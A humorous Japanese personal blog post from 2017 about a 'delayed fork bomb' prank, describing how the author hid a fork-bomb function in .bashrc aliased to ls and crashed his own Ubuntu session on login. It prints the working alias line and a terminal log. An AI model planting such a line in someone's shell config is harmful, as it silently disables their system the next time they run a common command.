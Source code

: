 ```yaml
---
Keywords: どうでもいい,危険シェル芸,帰る,日記,フォーク爆弾,シェル芸,頭の中だだ漏らし
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 時間差フォーク爆弾の提案と実行 #危険シェル芸
本日は大変痛ましい事故が起こりました。私を訪ねてきた学生さんが一人、危険シェル芸の犠牲になりました。最大のリスクは生きることです。社会人になったら誰も守ってくれません。強く生きましょう。<br />
<br />
さて、その後始末の時に、時間差危険シェル芸（より正確には時間差フォーク爆弾）を思いつきました。<br />
<br />
アイデアはこんな感じ。過去に同じことを考えた人はいるでしょうが・・・。<br />
<br />
<ul><br />
 <li>ステップ1: .bashrc等にフォーク爆弾の関数を仕込んでおく（lsとかそういう人気のある名前で）</li><br />
 <li>ステップ2: lsと打つ。</li><br />
 <li>ステップ3: 死ぬ。</li><br />
</ul><br />
<br />
<br />
<h2>検証</h2><br />
<br />
やってみました。VMで・・・と言いたいところですが、ノートPCを買い換えた時にVMを消してしまいました。某Ubuntu環境でやります。<span style="color:red">ツッコミは厳禁。</span><br />
<br />
ログインしたら、.bashrcの一番下に次のように書きます。書き間違えると不発弾になって後世に迷惑がかかるのでやめましょう（消せよ）。<br />
<br />
[bash]<br />
ueda\@remote:~$ tail -n 1 .bashrc <br />
alias ls='ls(){ ls | ls &amp;} ; ls'<br />
[/bash]<br />
<br />
一度ログアウト。sourceしてもいいのですが、ログイン即身成仏を狙います。<br />
<br />
ということでログインして即実行。<br />
<br />
[bash]<br />
ueda\@remote:~$ ls<br />
[1] 18531<br />
ueda\@remote:~$ <br />
[1]+ 終了 ls | ls<br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
<br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ <br />
ueda\@remote:~$ vi .bashr<br />
（消息を断つ。）<br />
[/bash]<br />
<br />
大成功。ちょっとログ等で確認が取れませんが・・・。<br />
<br />
<span style="color:red">.bashrcからエイリアスを消した直後、まだ設定が残っているのに間違ってlsを打ってしまい再度死んだのは秘密にする。</span><br />
<br />
<br />
帰る。というか今横須賀線車内・・・。<br />
<br />
<br />
何をやっているのか。
